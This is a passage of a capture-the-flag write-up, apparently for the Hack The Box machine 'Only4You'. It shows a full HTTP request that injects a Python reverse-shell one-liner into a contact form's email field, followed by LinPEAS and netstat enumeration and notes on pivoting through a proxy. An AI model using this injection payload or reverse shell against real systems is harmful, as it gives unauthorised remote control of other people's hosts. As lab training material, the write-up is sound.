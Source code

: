 Here is the request with the injection

```text
POST http://only4you.htb/ HTTP/1.1
Host: only4you.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded
Content-Length: 285
Origin: https://only4you.htb
Connection: keep-alive
Referer: https://only4you.htb/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1


name=lololol%40gmail.com&email=lol@gmail.com; python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'&subject=d&message=d
```


### Foothold enumeration {#foothold-enumeration}

Now that I have a foothold, it's time to enumerate with LinPEAS.

I'll leave the exercise of uploading a tool to the target host as an exercise for the reader.[^fn:4]  Once I got LinPEAS.sh onto the host, I started with some basic enumeration.

The following is a great example of why you should always run `netstat`:

```text
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1040/nginx: worker
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
tcp6       0      0 127.0.0.1:7687          :::*                    LISTEN      -
tcp6       0      0 127.0.0.1:7474          :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

We can see the two ports 80 and 22 from our nmap, but we can also see that MySQL and other services are running. We will need to "pivot" by running a proxy on the remote host.


#### Inspecting the ports {#inspecting-the-ports}

But how do we access it? We use a proxy on the victim host to "pivot" to the port we need.


[^fn:1]: <https://www.youtube.com/watch?v=AJc53DUdt1M&t=720s>
[^fn:2]: <https://docs.python.org/3/library/os.path.html#os.path.join>
[^fn:3]: <https://stackoverflow.com/questions/3172470/actual-meaning-of-shell-true-in-subprocess>
[^fn:4]: My advice is to have a directory for the tools then use `python -m http.server` or pwncat to download it
[^fn:5]: <https://github.com/jpillora/chisel>
[^fn:6]: <https://neo4j.com/docs/operations-manual/current/configuration/ports/>